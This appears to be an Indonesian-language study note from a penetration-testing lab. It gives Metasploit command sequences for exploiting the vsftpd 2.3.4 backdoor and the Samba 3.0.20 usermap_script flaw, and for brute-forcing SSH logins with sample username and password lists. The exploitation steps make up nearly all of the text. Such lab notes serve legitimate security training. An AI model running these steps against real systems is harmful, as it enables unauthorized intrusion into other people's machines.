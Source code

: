 # Studi Kasus Exploitation

## 💥 Exploitation: vsftpd 2.3.4

Hasil `nmap` menunjukkan FTP versi:

```
vsftpd 2.3.4
```

Langkah eksploitasi:

### Search Exploit

```bash
searchsploit vsftpd 2.3.4
```

### Di Metasploit

```bash
search vsftpd

use exploit/unix/ftp/vsftpd_234_backdoor

show info

show options

set RHOST 192.168.1.5

show payloads

show targets

show options

exploit
```

## 🛠️ Software Vulnerability: Samba 3.x Exploitation

Hasil `nmap`:

```
Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

Langkah eksploitasi:

### Search Exploit

```bash
searchsploit samba
```

### Scan Versi Samba

```bash
search samba

use auxiliary/scanner/smb/smb_version

show info

show options

set RHOST <ip-target>

run
```

Dapat versi:

```
Samba 3.0.20-Debian
```

### Eksploitasi

```bash
searchsploit Samba 3.0.20

search samba

use exploit/multi/samba/usermap_script

show info

show options

set RHOSTS <ip-target>

run
```

---

## 🔐 Attacking SSH: Brute Force

### Metasploit SSH Module

```bash
search ssh

use auxiliary/scanner/ssh/ssh_login

show options
```

### Siapkan Username & Password List

Buat file:

- `/home/nfr/Desktop/usernames.txt`
- `/home/nfr/Desktop/passwords.txt`

Contoh isi `usernames.txt`:

```
root

admin

msfadmin
```

Contoh isi `passwords.txt`:

```
123456

password

msfadmin
```

### Konfigurasi Metasploit

```bash
set USER_FILE /home/nfr/Desktop/usernames.txt

set PASS_FILE /home/nfr/Desktop/passwords.txt

set RHOSTS <ip-target>

set VERBOSE true

show options

run
```

### Jika berhasil login

```bash
sessions

sessions -i 1
```

Atau login manual:

```bash
ssh msfadmin@192.168.1.9
```